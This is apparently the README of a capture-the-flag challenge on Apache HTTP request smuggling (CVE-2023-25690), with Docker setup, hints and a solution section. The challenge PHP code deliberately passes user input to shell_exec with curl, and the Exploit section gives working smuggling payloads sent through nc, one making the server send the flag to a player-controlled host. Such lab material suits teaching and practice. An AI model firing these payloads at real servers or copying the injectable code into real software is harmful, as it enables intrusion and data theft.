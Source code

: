 # Apache-Tide-Surfing-the-Waves-of-Request-Ambiguity

<p align="center">
  <a href="#installation">Install</a> •
  <a href="#documentation">Usage</a> •
  <a href="#about">About</a> •
  <a href="#exploit">Exploit</a> •
  <a href="#demo">Demo</a>
</p>

# Installation
```bash
git clone https://github.com/vigneshsb403/Apache-Tide-Surfing-the-Waves-of-Request-Ambiguity.git
cd Apache-Tide-Surfing-the-Waves-of-Request-Ambiguity
docker compose build
docker compose up
```
now you can visit your `localhost` to view the site is up.

# Documentation
```
Challenge name: Apache Tide: Unraveling the HTTP Request Smuggling
Sub-Challenge 1 name: Hidden Trails: Unearthing the Forbidden
Sub-Challenge 2 name: Local Odyssey: Navigating the Depths of Localality
```
> [!NOTE]\
> The challenge name gives a overview to the player that this challenge is about request smunggling and then the sub-challenge name 1 gives a hint that the player has to acess a unotherised file. then the sub-challenge name 2 gives a hint that the player hint that they have to acess the a internal function to get the flag.

## Hints

```
Hint 1: Did you go through the commented html code?
Hint 2: Visit Robots.txt
Hint 3: check the Server header from the responce
```
the final hint gives idea to the player that this challenge is based on a CVE.
### Mission brief 1
In the mission brief of sub challenge 1 we can give a glimpse of the code:
```php
if(isset($_GET['hacked'])){
    $flag = 'TH!S_!S_1$t_FLAG';
    file_put_contents('flag.txt', $flag);
}
```
and then they can get the file using
```bash
curl --location 'http://localhost/flag/'
```
### Mission brief 2
In the mission brief of sub challenge 2 we can add that there is a part of code like:
```php
if(isset($_GET['secret'])){
    $secret = $_GET['secret'];
    shell_exec("curl --location '" . $secret . "/dontlookhere'"); // this sends the flag to players server.
}
```
which gives players the overview that they have to pass in a listening servers host or ip to get the flag.
# About
this challenge is based on CVE 2023 25690.

Some mod_proxy configurations on Apache HTTP Server versions 2.4.0 through 2.4.55 allow a HTTP Request Smuggling attack. Configurations are affected when mod_proxy is enabled along with some form of RewriteRule or ProxyPassMatch in which a non-specific pattern matches some portion of the user-supplied request-target (URL) data and is then re-inserted into the proxied request-target using variable substitution. For example, something like: RewriteEngine on RewriteRule "^/here/(.*)" "http://example.com:8080/elsewhere?$1"; [P] ProxyPassReverse /here/ http://example.com:8080/ Request splitting/smuggling could result in bypass of access controls in the proxy server, proxying unintended URLs to existing origin servers, and cache poisoning. Users are recommended to update to at least version 2.4.56 of Apache HTTP Server.

# Exploit
Sub-Challenge-1 can be solved by sending a request like:
```bash
echo "GET /categories/1%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aGET%20/categories.php%3fhacked%3dTrue HTTP/1.1\r\nHost: hostname\r\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)\r\n\r\n" | nc localhost 80
```
followed by an other request:
```bash
curl --location 'http://localhost/flag/'
```
Sub-Challenge-2 can be solved by sending a request like:
```bash
echo "GET /categories/1%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aGET%20/categories.php%3fsecret%3dplayerserver.com HTTP/1.1\r\nHost: hostname\r\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)\r\n\r\n" | nc hostname 80
```
why this instered of BurpSuite or any other proxy because it is hard to replicate the unicodes there.

> [!NOTE]\
> The hostname must be changed accordingly\
> The `playerserver.com` must be changed to send the request to the players server.

# Demo
To be added

